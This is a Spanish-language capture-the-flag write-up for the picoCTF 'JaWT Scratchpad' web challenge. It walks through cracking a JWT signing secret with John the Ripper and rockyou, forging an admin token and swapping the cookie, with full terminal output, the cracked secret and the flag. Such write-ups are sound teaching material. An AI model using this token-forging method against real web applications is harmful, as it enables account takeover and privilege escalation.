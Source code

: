# JaWT Scratchpad
## Objetivo
heck the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210

## Soluciòn
Al dar click a la link que nos dan entramos a una pàgina en donde debemos poner algùn usuario, despues nos redirige a otra pàgina, en la cual te da la bienvenida y hay un recuadro de texto, el cual debe estar vacìo.
Con ayuda de la estencion de Cookies Editor, que ya usamos anteriormente en otros retos, vamos a copiar la cookie que se llama "jwt", en al consola creamos un archivo que se llame token u otro nombre, en donde vamos a pegar la cookie, con cat nos aseguramos de que està la cookie en el archivo.
Ahora vamos a ver si tenemos algunas palabras clave que nos ayudaràn a entrar a la pagina en la que nos loggeamos como si fuesemos admin, ya que ahì vaos a encontrar la flag.  Esas palabras clave se encuentran en el directorio /usr/share/wordlists  en un zip llamado rockyou.txt.gz, ese zip lo vamos a extraer y vamos a leer el txt que venìa dentro. y ahora con ayuda del comando john vamos a ver cual palabra clave nos ayuda a editar la cookie para poder acceder como admin.

En una pàgina llamada jwt.io vamos a editar la cookie que obtuvimos al principio, pegamos, editamos el user a admin y en la parte de abajo, hay codigo en color azul, hay un espacio que podeos editar, borramos el contenido y podemos la palabra que nos dioen la consola gracias al comando jonh. 
La cookie irà cambiando conforme vayamos editando, cuando ya hayamos hecho el proceso descrito arriba, copiamos la cookie resultante, vamos a la pàgina en la que loggeamos, editamos la cookie sin hacer logout, y pegamos la nueva cookie, guardamos y recargamos la pàgina, como resultado, en el cuadro de texto que antes estaba vacìo ahora contiene la flag para este reto.

```shell
┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ nano token

┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ cat token
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYW5kcmVhX2Nhc3RybyJ9.ZUMVTEEVeroX9o9ZfMIY-g95-3uLKG3QKf7_YygSBiI

┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ ls /usr/share/wordlists 
amass  dirbuster      fern-wifi  legion      nmap.lst        sqlmap.txt  wifite.txt
dirb   fasttrack.txt  john.lst   metasploit  rockyou.txt.gz  wfuzz

┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
[sudo] password for kali: 

┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ ls /usr/share/wordlists                         
amass  dirbuster      fern-wifi  legion      nmap.lst     sqlmap.txt  wifite.txt
dirb   fasttrack.txt  john.lst   metasploit  rockyou.txt  wfuzz

┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ head /usr/share/wordlists/rockyou.txt
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
   
┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ sudo apt install john
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
john is already the newest version (1.9.0-Jumbo-1+git20211102-0kali3+b1).
john set to manually installed.
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.

┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ john
Created directory: /home/kali/.john
John the Ripper 1.9.0-jumbo-1+bleeding-aec1328d6c 2021-11-02 10:45:52 +0100 OMP [linux-gnu 64-bit x86_64 SSE2 AC]
Copyright (c) 1996-2021 by Solar Designer and others
Homepage: https://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]

Use --help to list all available options.

┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ john token -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:16 DONE (2022-10-07 17:09) 0.05924g/s 438111p/s 438111c/s 438111C/s iloverob4live345..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

┌──(kali㉿kali)-[~/…/CarpetaCompartida.Windows/RetosKali-exam--editar/CarpetaKali-exam1/Retos-Web picoCTF 2019]
└─$ 
```
picoCTF{jawt_was_just_what_you_thought_44c752f5}

## Referencias
- []()